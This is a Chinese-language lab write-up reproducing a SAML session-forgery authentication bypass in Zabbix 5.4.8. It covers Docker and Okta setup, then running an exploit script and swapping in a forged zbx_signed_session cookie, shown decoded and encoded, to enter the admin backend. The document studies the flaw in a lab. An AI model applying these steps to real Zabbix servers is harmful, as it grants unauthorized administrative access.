

#环境搭建

环境配置较复杂，本文搭建基于虚拟机。

##虚拟机（漏洞存在）

zabbix5.4的虚拟机
https://cdn.zabbix.com/zabbix/appliances/stable/5.4/5.4.8/zabbix_appliance-5.4.8-vmx.tar.gz 

##docker版本（漏洞修复）

	docker pull zabbix/zabbix-server-mysql:centos-5.4.8
	docker pull zabbix/zabbix-web-nginx-mysql:centos-5.4.8
	docker pull zabbix/zabbix-java-gateway:centos-5.4.8
	
	
	docker run --name mysql-server -t \
	-p 3306:3306 \
	-e MYSQL_DATABASE="zabbix" \
	-e MYSQL_USER="zabbix" \
	-e MYSQL_PASSWORD="zabbix_pwd" \
	-e MYSQL_ROOT_PASSWORD="root_pwd" \
	-d mysql:8.0 \
	--character-set-server=utf8 --collation-server=utf8_bin \
	--default-authentication-plugin=mysql_native_password
	
	docker run --name zabbix-java-gateway -t \
	-d zabbix/zabbix-java-gateway:centos-5.4.8
	
	docker run --name zabbix-server-mysql -t \
	-e DB_SERVER_HOST="mysql-server" \
	-e MYSQL_DATABASE="zabbix" \
	-e MYSQL_USER="zabbix" \
	-e MYSQL_PASSWORD="zabbix_pwd" \
	-e MYSQL_ROOT_PASSWORD="root_pwd" \
	-e ZBX_JAVAGATEWAY="zabbix-java-gateway" \
	--link mysql-server:mysql \
	--link zabbix-java-gateway:zabbix-java-gateway \
	-p 10051:10051 \
	-d zabbix/zabbix-server-mysql:centos-5.4.8
	
	docker run --name zabbix-web-nginx-mysql -t \
	-e DB_SERVER_HOST="mysql-server" \
	-e MYSQL_DATABASE="zabbix" \
	-e MYSQL_USER="zabbix" \
	-e MYSQL_PASSWORD="zabbix_pwd" \
	-e MYSQL_ROOT_PASSWORD="root_pwd" \
	--link mysql-server:mysql \
	--link zabbix-server-mysql:zabbix-server \
	-p 8080:8080 \
	-d zabbix/zabbix-web-nginx-mysql:centos-5.4.8

	docker run \
    -d \
    --name keycloak \
    -p 8081:8080 \
    -e KEYCLOAK_USER=admin \
    -e KEYCLOAK_PASSWORD=123456 \
    -e DB_ADDR="mysql-server" \
    -e DB_PORT=3306 \
    -e DB_DATABASE=keycloak \
    -e DB_USER=root \
    -e DB_PASSWORD="root_pwd" \
    jboss/keycloak:9.0.0


##开启SAML协议

(参考https://github.com/catsAND/zabbix-saml)

登陆https://www.okta.com/developers找到Okta Developers点击


Sign up for free注册个账号


注册完后会跳转到后台，左侧菜单找到Applications->Applications->Create App Interfration


选择SAML2.0下一步，App name填zabbix，下一步配置SAML，

	#Single sign on URL
	http://192.168.153.142/index_sso.php?acs

	#Audience URI (SP Entity ID) 
	zabbix

	#Name ID format 
	EmailAddress
	
	#Application username 
	Email
	
	#Update application username on 
	Create and update


下面Attribute Statements (optional)填入


Next下一步，选择I'm an Okta customer adding an internal app，Finish结束


进入配置完的zabbix，找到Assignments,点击Assign->Assgin to People，选择里面的用户，点击Assign->Save and go back->Done


点击Sign On，找到里面的View Setup Instructions


根据里面的信息配置zabbix


在 Zabbix 服务器的 /usr/share/zabbix/conf/certs 目录创建 idp.crt 文件，文件内容如上图，并赋权限

	/usr/share/zabbix/conf/certs/idp.crt
	
	chmod 644 idp.crt
	chmod +x idp.crt

登陆zabbix(Admin/zabbix)配置SAML认证,打开 Administration->Authentication->SAML settings


	

Update更新，返回登陆页面出现Sign in with Single Sign-On (SAML)


##复现

获取Cookie

```python3 zabbix_session_exp.py http://192.168.153.142 Admin```

	decode_payload: 
	{"saml_data": {"username_attribute": "Admin"}, "sessionid": "28838b6864ee9b7fd29ccf4c60ecb60b", "sign": "J6dtgE/82DQwCcvy+bvAVC//JREa1MPsVu/buHZUJnLm3p1VUXl3LSf8F6vJfZQdC+/4bKTmOPL/UszFU0PrSg=="}

	zbx_signed_session: eyJzYW1sX2RhdGEiOiB7InVzZXJuYW1lX2F0dHJpYnV0ZSI6ICJBZG1pbiJ9LCAic2Vzc2lvbmlkIjogImM1MDgyOTNhNDI4OTA4YTUyZjMzMmVkNTAxMzM4ZTJiIiwgInNpZ24iOiAiMEw5RGQrUVZsMWdBRDhXNzdxcXN1VHladWg2MFpTbEYyR0JRblJvbXJFQWtia2J0eFEzek5YQk1OT3pyZVZSMEMrLzRiS1RtT1BML1VzekZVMFByU2c9PSJ9


点击 Sign in with Single Sign-On (SAML)，抓包，替换Cookie



成功进入后台


